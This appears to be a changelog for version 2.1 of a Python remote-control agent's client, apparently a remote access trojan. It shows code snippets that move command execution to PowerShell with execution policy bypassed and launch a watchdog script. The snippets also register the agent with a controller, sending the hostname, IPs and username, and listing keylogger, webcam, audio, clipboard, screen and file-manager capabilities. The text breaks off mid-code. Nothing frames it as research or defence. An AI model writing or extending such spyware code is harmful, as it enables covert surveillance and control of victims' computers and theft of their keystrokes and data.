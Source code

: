 # PowerShell & UI v2.1 Update - Complete Guide

## ✅ What Was Updated

### 1. **CMD.exe → PowerShell Migration** 
All command execution now uses PowerShell instead of CMD.exe for better compatibility and features.

### 2. **Agent Data Format v2.1**
Updated agent registration to include comprehensive system information for the new controller UI.

---

## 📋 Changes Made to client.py

### **PowerShell Updates:**

#### **Before (CMD):**
```python
# Old CMD execution
subprocess.run([cmd_exe_path, "/c", "chcp 65001 >nul & " + command], ...)
subprocess.Popen(['cmd.exe', '/c', watchdog_path], ...)
os.environ['COMSPEC'] = cmd_path  # CMD.exe
```

#### **After (PowerShell):**
```python
# New PowerShell execution
subprocess.run([ps_exe_path, "-ExecutionPolicy", "Bypass", "-NoProfile", "-Command", command], ...)
subprocess.Popen(['powershell.exe', '-ExecutionPolicy', 'Bypass', '-NoProfile', '-File', watchdog_path], ...)
os.environ['COMSPEC'] = ps_path  # PowerShell
```

### **Agent Data v2.1 Format:**

#### **Before (Basic):**
```python
safe_emit('agent_connect', {'agent_id': agent_id})
```

#### **After (Comprehensive v2.1):**
```python
safe_emit('agent_connect', {
    'agent_id': agent_id,
    'hostname': socket.gethostname(),
    'platform': platform.system(),
    'os_version': platform.release(),
    'ip_address': get_local_ip(),
    'public_ip': get_public_ip(),
    'username': os.getenv('USERNAME') or os.getenv('USER') or 'unknown',
    'version': '2.1',
    'capabilities': {
        'screen': True,
        'camera': CV2_AVAILABLE,
        'audio': PYAUDIO_AVAILABLE,
        'keylogger': PYNPUT_AVAILABLE,
        'clipboard': True,
        'file_manager': True,
        'process_manager': PSUTIL_AVAILABLE,
        'webcam': CV2_AVAILABLE,
        'webrtc': AIORTC_AVAILABLE
```